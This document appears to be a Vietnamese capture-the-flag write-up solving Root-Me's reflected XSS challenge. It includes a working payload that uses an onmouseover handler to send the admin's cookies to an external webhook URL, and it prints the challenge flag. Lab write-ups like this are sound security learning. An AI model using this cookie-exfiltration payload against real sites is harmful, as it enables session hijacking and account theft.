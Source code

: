 ```diff
@@ Web-Client Challenge
```

## XSS - Reflected [45 Points]

* Challenge cung cấp một trang web bán hàng như sau

  ![10](img/10.jpg)

* Ngoài trang ```Contact us``` thì có vẻ không có chỗ nào để tương tác với admin. Tuy nhiên nó đã ghi rõ đây là 'useless form', cho dù ta có cố gắng post gì lên thì nó đều thông báo là đã bỏ qua form của chúng ta.

  ![10-1](img/10-1.jpg)

  ![10-2](img/10-2.jpg)

* Bế tắc, ta kiểm tra source ta thấy còn một trang nữa

  ![10-3](img/10-3.jpg)

* Trang này cho phép ta tương tác với admin, bằng cách post lên 1 đường link web bị hỏng và admin sẽ kiểm tra nó

  ![10-4](img/10-4.jpg)

* Lưu ý rằng đề có gợi ý rằng admin sẽ không click vào, vậy thì ta cần dùng script inline để khi admin di chuột thì sẽ tự động kích hoạt XSS. Em dùng onmouseover để kích hoạt xss

  Payload: ( Thay đổi href trong "Report to the administrator" )

  ```?p=report&url=http://challenge01.root-me.org/web-client/ch26/?p=' onmouseover="document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f/?flag='.concat(document.cookie)"```

  Kết quả:

  ![10-5](img/10-5.jpg)

  ```diff
  -- r3fL3ct3D_XsS_fTw
  ```

  ​